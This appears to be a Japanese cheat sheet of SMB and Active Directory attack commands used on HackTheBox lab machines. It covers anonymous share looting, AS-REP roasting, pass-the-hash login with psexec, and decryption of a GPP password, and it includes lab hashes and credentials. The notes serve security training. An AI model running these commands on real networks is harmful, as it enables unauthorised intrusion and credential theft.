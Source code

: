 # nmap
    sudo nmap -sVC -vv -n --script "safe or smb-enum-*" -p 139,445 10.129.1.171

# smbclient  

### 接続
    smbclient -L <ipaddr>
    smbclient \\\\10.129.138.203\\Replication

### 再起的にファイルを取得

    $ smbclient \\\\10.129.138.203\\Replication               
    Enter WORKGROUP\asai's password:
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> mget *
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (2.2 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (0.6 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (1.1 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3722 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (2.9 KiloBytes/sec) (average 1.1 KiloBytes/sec)


### passwordポリシーの取得

    crackmapexec smb 10.129.1.77 --pass-pol -u '' -p ''

### impacket

    python3 GetNPUsers.py -dc-ip 10.129.1.77 -request 'htb.local/' -format hashcat


### パスワードクラック



### ログイン

hashつかったログインが可能か確かめる
    crackmapexec smb 10.129.1.77 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

psexec(hash)
aad3bからLMハッシュが始まる場合はblankなのでNTハッシュで埋める
    psexec.py -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.1.77

### smbmap

再起的なディレクトリ検索
    smbmap -H 10.129.138.203 -R Replication

パターン検索ファイルのダウンロード
    smbmap -H 10.129.138.203 -R Replication -A Groups.xml -q

認証情報指定して検索
    smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.203

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
